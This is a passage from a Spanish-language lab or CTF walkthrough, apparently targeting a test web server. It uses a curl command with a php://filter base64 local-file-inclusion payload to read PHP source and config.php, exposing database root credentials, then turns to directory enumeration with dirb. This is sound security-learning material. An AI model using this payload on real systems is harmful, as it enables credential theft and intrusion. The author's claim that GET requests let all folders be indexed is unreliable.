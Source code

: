```
                $_SESSION['user'] = $luser;
                header('Location: ?page=upload');
        }
        else
        {
                echo "Login failed.";
        }
}
else
{
        ?>
        <form action="" method="POST">
        <label>Username: </label><input id="user" type="test" name="user"><br />
        <label>Password: </label><input id="pass" type="password" name="pass"><br />
        <input type="submit" name="submit" value="Login">
        </form>
        <?php
}
base64: entrada inválida
```

En la última consulta que realizamos nos percatamos que está ligado **require("config.php");** al código, por lo que vamos a realizar una consulta más a ver que información nos proporciona:

```
┌──(al3j4ndr0㉿kali)-[~]
└─$ curl -s http://174.0.0.129?page=php://filter/convert.base64-encode/resource=config | grep -e '[^\ ]\{40,\}' | base64 -d
<?php
$server   = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>base64: entrada inválida
```

Vaya, nos acaba de proporcionar el usuario y contraseña de una base de datos!!!, lo dejaré por el momento hasta aquí, ya que, en seguida se volverá a utilizar esta información.

Investigando un poco más acerca del servidor que se encuentra cargado en el puerto 80, nos percatamos que es **Apache httpd 2.4.10 ((Debian))**, buscamos las posibles vulnerabilidades y nos encontramos con las siguientes: [Vulnerabilidades de Apache 2.4](https://httpd.apache.org/security/vulnerabilities_24.html).

Un problema más de este puerto es que las solicitudes hacia el servidor es por medio del método *GET* es decir no son seguras, con este método se pueden indexar todas las carpetas alojadas en el servidor.

Para comprobar este concepto utilizaremos la herramienta **dirb**:

<center>
    <img src='./../assets/img/posts/20230702/Session_08.png'>
</center>
